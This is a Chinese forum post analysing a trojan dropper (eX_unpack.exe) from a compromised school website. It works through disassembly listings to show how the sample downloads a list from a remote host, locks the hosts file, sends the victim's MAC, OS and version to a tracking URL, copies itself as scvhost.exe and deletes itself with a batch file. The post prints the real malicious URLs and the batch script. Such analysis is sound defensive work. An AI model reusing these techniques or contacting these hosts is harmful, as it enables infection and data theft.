  00A0FD84   00A0FEA0  ASCII "http://wxg.3ehs.com/host.txt"
  00A0FD88   00A0FDA0  ASCII "C:\WINDOWS\system32\drivers\etc\hosts"
  00A0FD8C   00000104
  00A0FD90   00000000
  00A0FD94   00000000

  通过 API 函数 URLDownloadToCacheFileA 将 http://wxg.3ehs.com/host.txt 中含有下载列表的文件 host.txt 下载到 IE 缓冲区

  修改 C:\WINDOWS\system32\drivers\etc 下的 hosts 文件的属性为只读。
  
  00400DB1  |.  6A 01         push    1                                           ; /FileAttributes = READONLY
  00400DB3  |.  50            push    eax                                         ; |FileName = "C:\WINDOWS\system32\drivers\etc\hosts"
  00400DB4  |.  FF15 48044000 call    dword ptr [<&KERNEL32.SetFileAttributesA>]  ; \SetFileAttributesA

  00400DB4  |.  FF15 48044000 call    dword ptr [<&KERNEL32.SetFileAttributesA>]  ; \SetFileAttributesA
  00400DBA  |>  5E            pop     esi
  00400DBB  |.  33C0          xor     eax, eax
  00400DBD  |.  5B            pop     ebx
  00400DBE  |.  C9            leave
  00400DBF  \.  C3            retn

  7C80B50B    50              push    eax
  7C80B50C    E8 98170000     call    ExitThread
  7C80B511    90              nop

  退出了线程，此时我们重新加载，取消所有断点，再次来到

  00400A86  |.  50            push    eax                                         ; /pThreadId
  00400A87  |.  57            push    edi                                         ; |CreationFlags
  00400A88  |.  57            push    edi                                         ; |pThreadParm
  00400A89  |.  68 C00C4000   push    00400CC0                                    ; |ThreadFunction = 11063046.00400CC0
  00400A8E  |.  57            push    edi                                         ; |StackSize
  00400A8F  |.  57            push    edi                                         ; |pSecurity
  00400A90  |.  FFD6          call    esi                                         ; \CreateThread
  00400A92  |.  8B1D 1C044000 mov     ebx, dword ptr [<&KERNEL32.WaitForSingleObj>;  kernel32.WaitForSingleObject
  00400A98  |.  68 E8030000   push    3E8                                         ; /Timeout = 1000. ms
  00400A9D  |.  50            push    eax                                         ; |hObject
  00400A9E  |.  FFD3          call    ebx                                         ; \WaitForSingleObject

  00400AA3  |.  50            push    eax                                         ; /pThreadId
  00400AA4  |.  57            push    edi                                         ; |CreationFlags
  00400AA5  |.  57            push    edi                                         ; |pThreadParm
  00400AA6  |.  68 320B4000   push    00400B32                                    ; |ThreadFunction = 11063046.00400B32
  00400AAB  |.  57            push    edi                                         ; |StackSize
  00400AAC  |.  57            push    edi                                         ; |pSecurity
  00400AAD  |.  FFD6          call    esi                                         ; \CreateThread
  00400AAF  |.  68 E8030000   push    3E8                                         ; /Timeout = 1000. ms
  00400AB4  |.  50            push    eax                                         ; |hObject
  00400AB5  |.  FFD3          call    ebx                                         ; \WaitForSingleObject
  00400AB7  |.  E8 AF040000   call    00400F6B
  00400ABC  |.  5E            pop     esi
  00400ABD  |.  33C0          xor     eax, eax
  00400ABF  |.  5B            pop     ebx
  00400AC0  |>  5F            pop     edi
  00400AC1  |.  C9            leave
  00400AC2  \.  C3            retn
（12）创建新线程，统计本地感染机器的网卡地址、系统版本和时间，将这些信息发送到指定的地址。
  我们用同样的办法来到第二个线程函数的入口地址。
  00400B32  /.  55            push    ebp
  00400B33  |.  8BEC          mov     ebp, esp
  00400B35  |.  81EC 18030000 sub     esp, 318

  网站提交本机的信息（http://count.yf3e.com/count/get.asp?mac=00c029708e89&ver=20090425&os=WinXP"）到
  http://count.yf3e.com/count/get.asp

  00400BFB  |.  209D E8FEFFFF and     byte ptr [ebp-118], bl
  00400C01  |.  6A 40         push    40
  00400C03  |.  59            pop     ecx
  00400C04  |.  33C0          xor     eax, eax
  00400C06  |.  8DBD E9FEFFFF lea     edi, dword ptr [ebp-117]
  00400C0C  |.  BE A0274000   mov     esi, 004027A0                    ;  ASCII "?mac="
  00400C11  |.  F3:AB         rep     stos dword ptr es:[edi]
  00400C13  |.  66:AB         stos    word ptr es:[edi]
  00400C15  |.  AA            stos    byte ptr es:[edi]
  00400C16  |.  8D7D EC       lea     edi, dword ptr [ebp-14]
  00400C19  |.  8D85 E8FDFFFF lea     eax, dword ptr [ebp-218]
  00400C1F  |.  A5            movs    dword ptr es:[edi], dword ptr [e>
  00400C20  |.  50            push    eax                              ; /src
  00400C21  |.  8D85 E8FEFFFF lea     eax, dword ptr [ebp-118]         ; |
  00400C27  |.  50            push    eax                              ; |dest
  00400C28  |.  66:A5         movs    word ptr es:[edi], word ptr [esi>; |
  00400C2A  |.  E8 630A0000   call    <JMP.&MSVCRT.STRCPY>             ; \strcpy
  00400C2F  |.  8D45 EC       lea     eax, dword ptr [ebp-14]
  00400C32  |.  50            push    eax                              ; /src
  00400C33  |.  8D85 E8FEFFFF lea     eax, dword ptr [ebp-118]         ; |
  00400C39  |.  50            push    eax                              ; |dest
  00400C3A  |.  E8 910A0000   call    <JMP.&MSVCRT.STRCAT>             ; \strcat
  00400C3F  |.  8D85 E8FCFFFF lea     eax, dword ptr [ebp-318]
  00400C45  |.  50            push    eax                              ; /src
  00400C46  |.  8D85 E8FEFFFF lea     eax, dword ptr [ebp-118]         ; |
  00400C4C  |.  50            push    eax                              ; |dest
  00400C4D  |.  E8 7E0A0000   call    <JMP.&MSVCRT.STRCAT>             ; \strcat
  00400C52  |.  8D85 E8FEFFFF lea     eax, dword ptr [ebp-118]
  00400C58  |.  68 98274000   push    00402798                         ; /src = "&ver="
  00400C5D  |.  50            push    eax                              ; |dest
  00400C5E  |.  E8 6D0A0000   call    <JMP.&MSVCRT.STRCAT>             ; \strcat
  00400C63  |.  8D85 E8FEFFFF lea     eax, dword ptr [ebp-118]
  00400C69  |.  68 60264000   push    00402660                         ; /src = "20090425"
  00400C6E  |.  50            push    eax                              ; |dest
  00400C6F  |.  E8 5C0A0000   call    <JMP.&MSVCRT.STRCAT>             ; \strcat
  00400C74  |.  8D85 E8FEFFFF lea     eax, dword ptr [ebp-118]
  00400C7A  |.  68 90274000   push    00402790                         ; /src = "&os="
  00400C7F  |.  50            push    eax                              ; |dest
  00400C80  |.  E8 4B0A0000   call    <JMP.&MSVCRT.STRCAT>             ; \strcat
  00400C85  |.  E8 39FEFFFF   call    00400AC3
  00400C8A  |.  50            push    eax                              ; /src
  00400C8B  |.  8D85 E8FEFFFF lea     eax, dword ptr [ebp-118]         ; |
  00400C91  |.  50            push    eax                              ; |dest
  00400C92  |.  E8 390A0000   call    <JMP.&MSVCRT.STRCAT>             ; \strcat
  00400C97  |.  83C4 38       add     esp, 38
  00400C9A  |.  8D85 E8FEFFFF lea     eax, dword ptr [ebp-118]
  00400CA0  |.  53            push    ebx
  00400CA1  |.  68 00000080   push    80000000
  00400CA6  |.  53            push    ebx
  00400CA7  |.  53            push    ebx
  00400CA8  |.  50            push    eax
  00400CA9  |.  FF75 FC       push    dword ptr [ebp-4]
  00400CAC  |.  FF55 F8       call    dword ptr [ebp-8]
  00400CAF  |.  85C0          test    eax, eax
  00400CB1  |.  75 06         jnz     short 00400CB9
  00400CB3  |.  FF75 FC       push    dword ptr [ebp-4]
  00400CB6  |.  FF55 F4       call    dword ptr [ebp-C]
  00400CB9  |>  5F            pop     edi
  00400CBA  |.  5E            pop     esi
  00400CBB  |.  33C0          xor     eax, eax
  00400CBD  |.  5B            pop     ebx
  00400CBE  |.  C9            leave
  00400CBF  \.  C3            retn

  我们继续分析 eX_unpack.exe
  （13）将病毒自身重命名为 scvhost.exe 拷贝到%SystemRoot%\system32\目录下。
  00402D6C    68 40124000     push    00401240
  00402D71    8D95 00FFFFFF   lea     edx, dword ptr [ebp-100]
  00402D77    52              push    edx
  00402D78    FF15 40104000   call    dword ptr [<&kernel32.lstrcat>]  ; kernel32.lstrcatA
  00402D7E    68 74114000     push    00401174                         ; ASCII "scvhost.exe"

  00402D83    8D85 00FFFFFF   lea     eax, dword ptr [ebp-100]
  00402D89    50              push    eax
  00402D8A    FF15 40104000   call    dword ptr [<&kernel32.lstrcat>]  ; kernel32.lstrcatA
  00402E56    6A 00           push    0
  00402E58    8D85 00FFFFFF   lea     eax, dword ptr [ebp-100]
  00402E5E    50              push    eax
  00402E5F    8D8D C0F9FFFF   lea     ecx, dword ptr [ebp-640]
  00402E65    51              push    ecx
  00402E66    FF15 4C104000   call    dword ptr [<&kernel32.CopyFileA>>; kernel32.CopyFileA

  0012F538   0012F980  |ExistingFileName = "C:\Documents and Settings\Administrator\",D7,"烂 eX\eX_unpack.exe"
  0012F53C   0012FEC0  |NewFileName = "C:\WINDOWS\system32\scvhost.exe"
  0012F540   00000000  \FailIfExists = FALSE

  （14）%TEMP%目录下创建批处理文件 _uok.bat，并隐藏执行该批处理，执行完后删除病毒自身和 __uok.bat 文件。
  00401688    8D85 FCFEFFFF   lea     eax, dword ptr [ebp-104]
  0040168E    50              push    eax
  0040168F    68 04010000     push    104
  00401694    FF15 2C104000   call    dword ptr [<&kernel32.GetTempPat>; kernel32.GetTempPathA
  0040169A    BF B0144000     mov     edi, 004014B0                    ; ASCII "_uok.bat"

  00401951    6A 00           push    0
  00401953    68 80000000     push    80
  00401958    6A 02           push    2
  0040195A    6A 00           push    0
  0040195C    6A 00           push    0
  0040195E    68 00000040     push    40000000
  00401963    8D85 FCFEFFFF   lea     eax, dword ptr [ebp-104]
  00401969    50              push    eax
  0040196A    FF15 1C104000   call    dword ptr [<&kernel32.CreateFile>; kernel32.CreateFileA

  堆栈地址=0012F438, (ASCII "C:\DOCUME~1\ADMINI~1\LOCALS~1\Temp\_uok.bat")
  ecx=7C93056D (ntdll.7C93056D)

  004019CB    51              push    ecx
  004019CC    8D8D F4FAFFFF   lea     ecx, dword ptr [ebp-50C]
  004019D2    51              push    ecx
  004019D3    8B95 ECFCFFFF   mov     edx, dword ptr [ebp-314]
  004019D9    52              push    edx
  004019DA    FF15 08104000   call    dword ptr [<&kernel32.WriteFile>>; kernel32.WriteFile

  0012F030  :Repeat..del "C:\DOCUME~1\ADMINI~1\桌面\eX\EX_UNP~1.EXE"..if exi
  0012F070  st "C:\DOCUME~1\ADMINI~1\桌面\eX\EX_UNP~1.EXE" goto Repeat..rmdi
  0012F0B0  r C:\DOCUME~1\ADMINI~1\桌面\eX ..del "C:\DOCUME~1\ADMINI~1\LOCAL
  0012F0F0  S~1\Temp\_uok.bat".

批处理内容为：
  :Repeat
  del "C:\DOCUME~1\ADMINI~1\桌面\eX\EX_UNP~1.EXE"
  if exist "C:\DOCUME~1\ADMINI~1\桌面\eX\EX_UNP~1.EXE" goto Repeat
  rmdir C:\DOCUME~1\ADMINI~1\桌面\eX 
  del "C:\DOCUME~1\ADMINI~1\LOCALS~1\Temp\_uok.bat"

  004019F5    51              push    ecx
  004019F6    FF15 20104000   call    dword ptr [<&kernel32.WinExec>]  ; kernel32.WinExec

________________________________________

【版权声明】: 本文原创于看雪技术论坛, 转载请注明作者并保持文章的完整, 谢谢!

<fieldset><legend>上传的附件</legend>  对教务管理系统主页网马的分析.rar
 eX.rar
</fieldset>

写入 dll 文件之前对资源还有一个单字节解密过程. 每次写入一个字节.
病毒下载地址列表应该也有一个解密过程. 不会赤裸裸放那的.
希望 LZ 可以去分析一下其解密算法, 那样就完整了.  总体来说, 分析的还算可以, 不过也都是一些 API 的调用.